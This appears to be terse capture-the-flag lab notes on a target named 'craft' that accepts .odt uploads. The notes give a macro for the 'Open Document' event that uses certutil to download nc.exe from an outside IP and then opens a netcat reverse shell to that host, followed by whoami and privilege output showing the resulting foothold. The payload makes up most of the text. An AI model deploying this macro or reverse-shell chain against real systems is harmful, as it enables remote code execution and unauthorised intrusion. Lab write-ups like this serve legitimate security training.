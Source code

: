 -  website allows \.odt files to be uploaded

craft malicious macro and assign it to “Open Document” event\.

Sub Main
Shell\("certutil\.exe \-urlcache \-f '[http://192.168.45.199/nc.exe'](#http://192.168.45.199/nc.exe')
C:\\Windows\\System32\\spool\\drivers\\color\\nc\.exe"\)
Shell\("C:\\Windows\\System32\\spool\\drivers\\color\\nc\.exe \-nv 192\.168\.45\.199 4444 \-e cmd\.exe"\)
End Sub

- whoami
whoami
craft\\thecybergeek

-  PRIVILEGES INFORMATION
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

